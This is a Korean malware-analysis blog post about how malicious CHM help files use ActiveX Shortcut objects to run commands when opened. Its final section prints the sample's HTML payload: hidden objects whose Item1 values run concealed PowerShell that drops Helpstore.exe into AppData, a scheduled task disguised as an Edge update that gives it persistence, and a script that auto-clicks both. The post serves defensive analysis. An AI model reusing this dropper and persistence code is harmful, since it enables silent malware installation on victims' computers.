 ```yaml
---
title: '📑 "CHM", Malware Analysis'
date: 2024-12-08 21:00:00 +0900
categories: [Malware Analysis Guide]
tags: [malware_analysis_guide, chm]
render_with_liquid: false
---
```


CHM 파일(Compiled HTML Help File)은 도움말 파일이라고도 불리며, Microsoft에서 개발한 파일 형식으로 HTML 문서와 관련 리소스를 하나의 파일로 압축하여 저장한 파일입니다. 공격자는 CHM 파일이 ActiveX를 지원하는 것을 악용하여, 단순히 CHM 파일을 오픈하는 것만으로 사용자의 간섭없이 악성코드를 실행합니다.


## <mark>1. CHM 파일</mark>

CHM 파일은 일반적으로 윈도우 도움말에 활용되는 파일입니다. 공격자는 해당 부분을 악용하여 마치 정상 파일처럼 위장하여 악성코드를 실행하게 만듭니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174428810-1733664241224-1.png" alt="IMG-chm 분석-20240911174428810" style="zoom:80%;" />

CHM 파일을 실행하게 되면, hh.exe라는 microsoft html help executable program을 사용하여 실행되게 됩니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174711040-1733664261923-5.png" alt="IMG-chm 분석-20240911174711040" style="zoom:80%;" />

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174737407-1733664268659-7.png" alt="IMG-chm 분석-20240911174737407" style="zoom:67%;" />

HTML 문서와 리소스가 하나의 파일로 압축되어 있기 때문에 압축 해제를 통해 파일 내부를 확인할 수 있습니다. 내부에 의심스러운 파일이 존재하는지, 존재하는 HTML 파일 내에 ActiveX 관련 코드가 존재하는지 확인할 필요가 있습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174511185-1733664278673-9.png" alt="IMG-chm 분석-20240911174511185" style="zoom: 80%;" />



## <mark>2. ActiveX Shortcut</mark>

ActiveX Shortcut Command는 지정된 작업의 Shortcut을 생성합니다. 여기서 중요한 속성은 Item1으로 실행 파일에 대한 경로와 매개변수를 지정할 수 있습니다. 공격자는 해당 속성에 명령어를 삽입하여 악성 행위를 수행합니다.

> [!NOTE]   
> 🔗[About ActiveX Shortcut Command](https://documentation.help/HTML-Help-ActiveX/ocx_shortcut.htm)

| **Property**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Button](https://documentation.help/HTML-Help-ActiveX/ocx_pbutton.htm) | Specifies the button style. Optional.                        |
| [Command](https://documentation.help/HTML-Help-ActiveX/ocx_pcommand.htm) | Calls the **Shortcut** command.                              |
| [Font](https://documentation.help/HTML-Help-ActiveX/ocx_pfont.htm) | Specifies the font attributes. Optional.                     |
| [Item1](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the file path to the executable file (.exe) for the program, and any parameters to be sent to the program. These values are delimited by a comma. HTML Help does not support `%WINDIR%` or other system variables in the file path. |
| [Item2](https://documentation.help/HTML-Help-ActiveX/ocx_pitem.htm) | Specifies the message ID of a standard Windows message, a *wPARAM* value, and a *lPARAM* value. These values are delimited by a comma. |
| [Text](https://documentation.help/HTML-Help-ActiveX/ocx_ptext.htm) | Specifies the link text. Optional.                           |



## <mark>3. 악성 CHM 샘플 분석</mark>

### ▪ <u>파일 내부 확인</u>

압축 해제를 통해 CHM 파일 내부를 확인하여 의심스러운 파일이 존재하는지 확인합니다. 샘플에서는 Helpstore.exe 라는 실행 파일이 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911174149846-1733664290193-11.png" alt="IMG-chm 분석-20240911174149846" style="zoom:80%;" />

해당 파일을 PPEE, pestudio를 사용해 확인해보니 의심스러운 리소스가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/IMG-chm 분석-20240911175412249-1733664311365-13.png" alt="IMG-chm 분석-20240911175412249" style="zoom:67%;" />



### ▪ <u>HTML 파일 확인</u>

CHM 파일을 실행하게 되면, 내부에 존재하는 HTML 파일들이 실행되게 되기 때문에 내부에 악성 스크립트가 존재하는지 확인할 필요가 있습니다. 샘플 내부에는 index.html 파일이 존재했고 코드를 확인해보니 ActiveX ShortCut 명령어가 확인되었습니다.

<img src="../images/2024-12-08-CHM-Malware-Analysis/image-20241208230607334.png" alt="image-20241208230607334" style="zoom:80%;" />

### ▪ <u>ActiveX ShortCut 분석</u>

공격자는 **CLSID_HHCtrl Object = {adb880a6-d8ff-11cf-9377-00aa003b7a11}**를 사용해 HHCtrl Object를 생성하여 ActiveX Shortcut을 사용합니다. Item1 속성을 확인해보니, Helpstore.exe를 드롭하고 schtasks를 사용하여 스케줄러에 등록하는 cmd 명령어가 발견되었습니다.

```html
<OBJECT id =qjswc classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1 style="display:none;">
	<PARAM name = "Command" value = "ShortCut">
	<PARAM name = "Button" value = "Bitmap::shortcut">
	<PARAM name = "Item1" value = ',cmd.exe,/c start /min /b powershell.exe -command "If (Test-Path \"$env:TEMP\") { Get-ChildItem \"$env:TEMP\" -File | Where-Object { $_.Length -eq 1596928 } | ForEach-Object { Copy-Item -Path $_.FullName -Destination \"$env:APPDATA\\Helpstore.exe\" -Force } }"'>
</OBJECT>

<OBJECT id=oheam classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=100 height=100 style="display:none;">
	<PARAM name="Command" value="ShortCut">
	<PARAM name="Button" value="Bitmap::shortcut">
	<PARAM name="Item1" value=',cmd.exe,/c start /min /b powershell.exe -WindowStyle Hidden -Command "schtasks /create /tn \"MicrosoftEdgeUpdateTask\" /tr \"%APPDATA%\Helpstore.exe\" /sc ONCE /st (Get-Date).AddMinutes(1).ToString(\"HH:mm\")"'>
</OBJECT>
```

악성 CHM 파일은 생성된 HHCtrl Object의 Click 메서드를 사용하여, CHM 파일을 실행하게 되면 지정한 명령이 실행되게 코딩되어 있습니다.

```html
<script>
	qjswc.Click();
	oheam.Click();
</script>
```


